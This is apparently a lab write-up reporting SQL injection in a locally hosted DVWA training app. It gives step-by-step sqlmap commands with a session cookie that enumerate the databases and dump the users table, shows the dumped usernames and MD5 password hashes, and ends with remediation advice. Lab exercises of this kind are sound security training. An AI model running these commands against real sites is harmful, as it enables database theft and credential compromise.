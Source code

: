 # 🔐 Vulnerability Report: SQL Injection via DVWA

## 🧠 Overview
This report outlines the discovery and exploitation of a **SQL Injection (SQLi)** vulnerability in the **Damn Vulnerable Web Application (DVWA)** using `sqlmap`. The objective was to simulate a real-world attack scenario to test the web application's resilience to injection flaws.

---

## 🎯 Target Application
- **Application**: DVWA (Damn Vulnerable Web Application)
- **URL**: `http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit`
- **Security Level**: Low
- **Environment**: DVWA on Docker/localhost
- **Vulnerable Parameter**: `id` (GET)

---

## 🛠 Tools Used
- **SQLmap**: Automated SQL Injection tool
- **Environment**: Windows 10, Docker Desktop
- **Browser**: Firefox/Chrome (for login & cookie extraction)
- **Session Authentication**: PHPSESSID cookie used in SQLmap

---

## 🧪 Methodology

### 1. Detecting SQL Injection
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch --dbs
```
> ✅ SQLmap confirmed SQL Injection vulnerability and listed available databases.

### 2. Listing Tables in Target Database
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch -D dvwa --tables
```

### 3. Retrieving Columns of `users` Table
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch -D dvwa -T users --columns
```

### 4. Dumping Table Data
```bash
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=52mjgugebi15c212kkbtf7ecj4" --batch -D dvwa -T users --dump
```

---

## 🔍 Findings

### Database: `dvwa`
- Tables:
  - `users`
  - `guestbook`

### Table: `users`
| user_id | user    | avatar                      | password (MD5)                           | last_name | first_name | last_login          |
|---------|---------|-----------------------------|------------------------------------------|-----------|------------|---------------------|
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (pwd)   | admin     | admin      | 2025-05-26 14:55:20 |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)| Brown     | Gordon     | 2025-05-26 14:55:20 |
| ...     | ...     | ...                         | ...                                      | ...       | ...        | ...                 |

### Vulnerabilities Detected
- SQL Injection via GET parameter.
- Unhashed session IDs in cookies.
- Passwords stored as **MD5 hashes** (easily crackable).
- No input validation or sanitization.

---

## 🛡 Recommendations

1. **Input Validation**: Use parameterized queries (prepared statements).
2. **Stored Password Security**: Replace MD5 with bcrypt or Argon2.
3. **Web App Firewall**: Deploy WAF rules to detect SQLi patterns.
4. **Session Handling**: Use secure, random, and rotating session IDs.
5. **Security Headers**: Add CSP, X-Content-Type, and X-Frame headers.
6. **Use ORM Tools**: Such as SQLAlchemy or Django ORM to reduce injection risk.

---

## 📌 Conclusion
This simulated attack successfully demonstrates how vulnerable the application is to SQL injection. SQLmap was able to extract entire database schemas and user credentials. Strengthening backend query handling and enforcing input validation are critical next steps for defense.

---

*This report was generated as part of a security testing exercise for educational purposes.*
